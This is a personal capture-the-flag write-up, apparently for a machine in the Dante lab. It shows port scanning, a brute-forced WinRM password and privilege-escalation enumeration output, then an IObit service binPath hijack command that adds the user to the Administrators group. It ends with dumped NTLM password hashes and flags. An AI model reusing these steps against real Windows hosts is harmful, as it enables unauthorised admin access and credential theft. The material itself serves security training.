 # Information
- CTF Name: 
- CTF Level:
- CTF Description: 
- Date: 
- Platform: 
- Category: 

# Findings
### Credentials
`FoundCREDs`

### Flag
- `DANTE{superB4d_p4ssw0rd_FTW}`
- `DANTE{Qu0t3_I_4M_secure!_unQu0t3}`
## External
### Enumeration
```shell
Nmap scan report for 172.16.1.101
Host is up (0.17s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE       VERSION
21/tcp  open  ftp           FileZilla ftpd
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
![](https://i.imgur.com/hYqRzrc.png)
![](https://i.imgur.com/A3BGJi7.png)
` login: dharding   password: WestminsterOrange5 `
![](https://i.imgur.com/aKPlkKJ.png)
- it is account password and winrm is enabled from the port so, i created the wordlist and brutefforce it
![](https://i.imgur.com/YVbAEmN.png)
![](https://i.imgur.com/b2sbfua.png)
- ` dharding : WestminsterOrange17 `
### Gaining Access
![](https://i.imgur.com/V4UbKZx.png)
## Internal
### Enumeration
```
    C:\Program Files\CUAssistant
    C:\Program Files\desktop.ini
    C:\Program Files\Internet Explorer
    C:\Program Files\ModifiableWindowsApps
    C:\Program Files\rempl
    C:\Program Files\Uninstall Information
    C:\Program Files\UNP
C:\Program Files (x86)
-------------------
Common Files
FileZilla Server
Internet Explorer
IObit
Microsoft.NET
Windows Defender
Windows Mail
Windows Media Player
Windows Multimedia Platform
Windows NT
Windows Photo Viewer
Windows Portable Devices
WindowsPowerShell

    
È Check if you can modify other users scheduled binaries https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-with-autorun-binaries
    (dharding) Uninstaller_SkipUac_dharding: C:\Program Files (x86)\IObit\IObit Uninstaller\IObitUninstaler.exe /UninstallExplorer
 Scheduled Tasks
-----------------------------------------------------------
Current System Time: 06/24/2024 06:52:06

TaskName    : \Uninstaller_SkipUac_dharding
Run As User : dharding
Task To Run : C:\Program Files (x86)\IObit\IObit Uninstaller\IObitUninstaler.exe /UninstallExplorer



  UDP        127.0.0.1             1900          *:*                            4152              svchost
ÉÍÍÍÍÍÍÍÍÍÍ¹ Checking for DPAPI Master Keys
È  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#dpapi
    MasterKey: C:\Users\dharding\AppData\Roaming\Microsoft\Protect\S-1-5-21-3529848291-2371357972-1873374923-1001\5bc96c14-a85d-45d7-8568-80ff29215ca4
    Accessed: 08/01/2021 05:43:55
    Modified: 08/01/2021 05:42:18
   =================================================================================================

    MasterKey: C:\Users\dharding\AppData\Roaming\Microsoft\Protect\S-1-5-21-3529848291-2371357972-1873374923-1001\ca7e39cf-799d-4dbd-b42b-74e634df8113
    Accessed: 08/01/2021 05:43:59
    Modified: 08/01/2021 05:42:18
   =================================================================================================


ÉÍÍÍÍÍÍÍÍÍÍ¹ Checking for DPAPI Credential Files
È  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#dpapi
    CredFile: C:\Users\dharding\AppData\Local\Microsoft\Credentials\DFBE70A7E5CC19A398EBF1B96859CE5D
    Description: Local Credential Data

    MasterKey: 5bc96c14-a85d-45d7-8568-80ff29215ca4
    Accessed: 24/06/2024 05:40:37
    Modified: 13/07/2020 06:06:58
    Size: 11152
```
![](https://i.imgur.com/sYSgte0.png)
https://www.exploit-db.com/exploits/48543
```
sc config IObitUnSvr binPath= "cmd /c net localgroup Administrators dharding /add"
```
![](https://i.imgur.com/GF42u24.png)
![](https://i.imgur.com/fNQFaDI.png)
- also did like the exploit and it worked
	- ![](https://i.imgur.com/aXJUYTA.png)
### Gaining Access
```shell
Administrator:500:aad3b435b51404eeaad3b435b51404ee:4c827b7074e99eefd49d05872185f7f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
dharding:1001:aad3b435b51404eeaad3b435b51404ee:9a64e3e730594630f571ee71c6a9661b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
sshd:1002:aad3b435b51404eeaad3b435b51404ee:06002020e60e9ec6865e40776629c273:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:2e68a3ca340652eb2107a49d2d1b8049:::
```

### Maintaining Access


# Random Notes